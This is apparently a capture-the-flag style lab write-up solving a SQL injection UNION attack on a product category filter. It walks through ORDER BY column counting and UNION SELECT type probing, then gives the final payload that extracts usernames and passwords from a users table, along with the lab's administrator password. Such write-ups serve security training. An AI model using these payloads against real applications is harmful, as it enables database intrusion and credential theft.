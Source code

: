 # Description:
 
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

# Analysis:

SQL Injection - Product category filter.

End Goal - Output the usernames and passwords in the users table and login
as the administrator user.

### We need to make three steps to resolve this lab, two preliminary and one retrieving the information that we need:
    1) - Determine the number of columns that the vulnerable query is using.
        query = ' order by 1--
        query = ' order by 2--
        query = ' order by 3-- 
            -> err -> There are two columns because it failed at three.
        
        Number of columns: 2.
    
    
    2) - Determine the data type of the columns.
        query thas is being made to the backend: 
            select a, b from producst where category='Gifts'
        
        query using the union attack:
            ' UNION select 'a', NULL--
            ' UNION select NULL, 'a'--

            Both columns are of data type string.
    
    3) - query:
        ' UNION select username, password from users--

        Now we have the administrator and the password:
            username: administrator
  	        password: 7p147uglukj4zpgreb9q
